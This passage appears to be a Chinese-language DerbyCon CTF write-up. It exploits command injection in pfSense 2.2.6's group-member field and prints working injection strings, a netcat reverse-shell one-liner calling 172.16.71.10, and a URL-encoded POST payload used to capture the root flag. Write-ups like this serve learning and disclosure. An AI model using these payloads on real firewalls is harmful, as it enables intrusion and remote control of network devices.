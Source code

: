 尽管我们对这个漏洞有了深入的了解，但是攻击仍然不尽如人意。 我们使用相同版本的pfSense软件（2.2.6）作为测试环境，并尝试使用相同的命令，虽然会导致同样的问题；但是仍然无法执行命令。 但是，由于我们对自己的实例获得了管理访问权限，因此我们可以查看系统日志和相关的错误信息。

不知何故，/sbin/ping或IP地址是被pw应用程序作为无效用户ID返回的，这意味着字符串转义没有完全成功，并且/usr/bin/pw实际上把我们的命令当成命令行参数了，这不符合我们的预期。

在鼓捣了更多的引号和转义序列之后，以下的字符串导致ping成功执行，并致使大量ICMP数据包涌入我们的网络接口。

```
0';/sbin/ping -c 1 172.16.71.10; /usr/bin/pw groupmod test -g 2003 -M '0
```

在CTF环境下尝试相同的输入也取得了成功。这样，我们已经实现了命令执行。当时，没有人获取该机器的root权限，并且如果我们想要通过@_DerbyconCTF在推特上提供的挑战分数成为赢家的话，就必须提高速度。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01accdc10a0045914d.png)

经再三考虑，我们认为下列方式要更加简练：

```
0';/sbin/ping -c 1 72.16.71.10;'
```

我们认为所有转义问题都将归结为以适当数量的引号来结束命令，但如前所述，在比赛期间，我们使用了更加繁琐的版本，毕竟当时只要管用就行了。

下一步…我们如何才能得到一个shell？

pfSense是FreeBSD的删减版本。没有提供wget，也没有提供curl。当然，我们可以用cat命令来写入网页目录，但是我们选择了一个传统的老式Linux反向shell。 感谢@PentestMonkey及其作弊表（http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet）：

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2&amp;gt;&amp;amp;1|nc 172.16.71.10 12345 &amp;gt;/tmp/f
```

我们启动了一个netcat监听器，并将其作为完整参数的一部分使用：

```
0'; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2&amp;gt;&amp;amp;1|nc 172.16.71.10 12345 &amp;gt;/tmp/f;/usr/sbin/pw groupmod test -g 2003 -M '0
```

或者，也可以像下面这样来借助于post请求：

```
&amp;amp;members=%5B%5D=0'%3brm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2&amp;gt;%261|nc+172.16.71.10+12345+&amp;gt;/tmp/f%3b/usr/sbin/pw+groupmod+test+-g+2003+-M+'0
```



攻击字符串准备就绪后，我们将用户移动到一个组中，通过保存操作来触发exploit。

我们对以下照片的质量感到很抱歉！

[![](https://p3.ssl.qhimg.com/t01f90bcaf98d2a7d00.jpg)](https://p3.ssl.qhimg.com/t01f90bcaf98d2a7d00.jpg)

这将导致代码运行，为我们创建一个反向连接，从而可以捕获包含在/root/flag.txt中的pfSense挑战的最后一个旗标。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01c244f7d4ac582a0e.jpg)
